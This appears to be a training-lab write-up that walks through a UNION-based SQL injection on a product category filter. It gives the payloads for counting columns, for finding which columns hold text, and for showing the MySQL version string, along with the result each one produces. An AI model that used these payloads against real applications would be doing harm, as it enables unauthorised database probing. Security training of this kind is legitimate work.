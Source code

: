 # **Lab 04 - SQL injection attack, querying the database type and version on MySQL and Microsoft**


## Scenario
***
**SQL injection vulnerability** -> product category filter

**End Goal**                              -> display the database version string
***

## Analysis

### **(1)  Find the number of columns**

There are two different methods that can be used:

* 1st method (internal server error)

```
' ORDER BY 3#
```

* 2nd method

```
' UNION SELECT NULL,NULL#
```

**Conclusion:** 2 columns

### **(2) Figure out which columns contain text**

```
' UNION SELECT 'a', 'a'#
```

**Conclusion:** Both columns contain text

### **(3) Output the version**

```
' UNION SELECT @@version, NULL#
```

**Conclusion:** The version displayed is "8.0.33-0ubuntu0.20.04.4"
